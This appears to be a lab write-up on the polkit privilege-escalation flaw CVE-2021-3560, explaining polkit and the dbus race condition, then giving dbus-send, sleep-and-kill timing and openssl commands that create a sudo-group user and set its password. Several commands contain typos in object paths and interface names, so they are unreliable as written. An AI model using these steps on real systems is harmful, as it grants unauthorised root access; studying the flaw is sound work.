 # Polkit vulnerabilities in Linux

## Overview

In early 2021 a researcher named Kevin Backhouse discovered a seven year old privilege escalation vulnerability (since designated CVE-2021-3560) in the Linux polkit utility. Fortunately, different distributions of Linux (and even different versions of the same distributions) use different versions of the software,k meaning that only some are vulnerable.

Specifically, the following mainstream distributions, amongst others, were vulnerable:

- Read hat Enterprise Linux 8
- Fedora 21 (or later)
- Debian Testing ("Bullseye")
- Ubuntu 20.04 LTS ("Focal Fossa")

All should now have released patched versions of their respective polkit packages, however, if you encounter one of these distributions then it may still be vulnerable if it hasn't been updated for a while.

## What is polkit?

Polkit is part of the Linux authorisation system. In effect, when you try to perform an action which requires a higher level of privileges, the policy toolkit can be used to determine whether you have the requisite permissions. It is integrated with systemd and is much more configurable than the traditional sudo system. Indeed, it is sometimes referred to as the "sudo of systemd".

When interacting with polkit we can use pkexec, instead of sud. As an example, attempting to run the useradd commnad through pkexec in a GUI session results in a pop-up asking for credentials:

```bash
pkexec useradd test1234
```

In a CLI session, we get text-based prompt instead.

To summarise, the policy toolkit can be thought of as a fine-grained alternative to the simpler sudo system.

## How is Polkit vulnerable?

The short answer is: by manually sending dbus messages to the dbus-daemon (effectively an API to allow different processes the ability to communicate with each other), then killing the request berfore it has been fully processed, we can trick polkit into authorising the command. If you are not familiar with daemons, they are effectively background services running on Linux. The dbus-daemon is a program running in the background which brokers messages between applications.

The full article about the vulnerability can be found [here](https://github.blog/2024-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#about)

In short the vulnerability can be exploited as below:

1. The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user), This message gets given a unique ID by the dbus-daemon.
2. The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID.
3. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.
4. The dbus-daemon can't find the message ID because we killed it in step two. It handles the error by responding with an error code.
5. Polkit mishandles the error and substitutes in 0 for the user ID -- i.e. the root account of the machine.
6. Thinking that the root user requested the action, polkit allows the request to go through unchallenged.

In short, by destroying the message ID before the dbus-daemon has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility into thinking that the request was made by the all-powerful root user.

## Exploitation process

The dbus message for creating user is as follows:

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /ort/freedesktop/Accounts org.freedesktop.Account.CreateUser string:attacker string:"Pentester Account" int32:1
```

This command will manually send a dbus message to the accounts daemon, printing the response and creating a new user called attacker (**string:attacker**) with a description of "Pentester Account" (**string:"Pentester Account"**) and membership of the sudo group set to true (referenced by the **int32:1** flag).

Our second message will set password for the account:

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Account/User<User_ID> org.freedesktop.Accounts.User.SetPassword string:<PASSWORD_HASH> string:'Ask the pentester'
```

This once again sends a dbus message to the accounts daemon, requesting a password change for the user with an ID which we specify, a password hash which we need to generate manually, and a hint ('Ask the pentester')

As this is effectively a race condition, we first need to determine how long our command will take to run. Let's try this with the first dbus message:

```bash
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /ort/freedesktop/Accounts org.freedesktop.Account.CreateUser string:attacker string:"Pentester Account" int32:1
```

This takes 0.011 seconds, or 11 milliseconds. We need to kill the command approximately halfway through execution. Five milliseconds usually works fairly well on the provided machine; however, be aware that this is not an exact thing. You may need to change the sleep time, or run the command several times before it works. That said, once you find a time that works, it should work consistently. If you are struggling to get a working time, putting the command inside a bash for loop and quickly running through a range of times tends to work fairly well.

Let's try this. We need to send the dbus message, then kill it about halfway through:

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /ort/freedesktop/Accounts org.freedesktop.Account.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```

With the above command we sent the dbus message in a background job (using the ampersand to background the command). We then told it to sleep for 5 milliseconds (**sleep 0.005s**), then kill the previous process (**kill $!**). This successsfully created the new user, adding them into the sudo group. Now we should note down the user ID by the command ```id attacker```.

We need a password hash here, so let's generate a Sha512Crypt hash for our chosen password (**Expl01ted**):

```bash
openssl passwd -6 Expl01ted
```
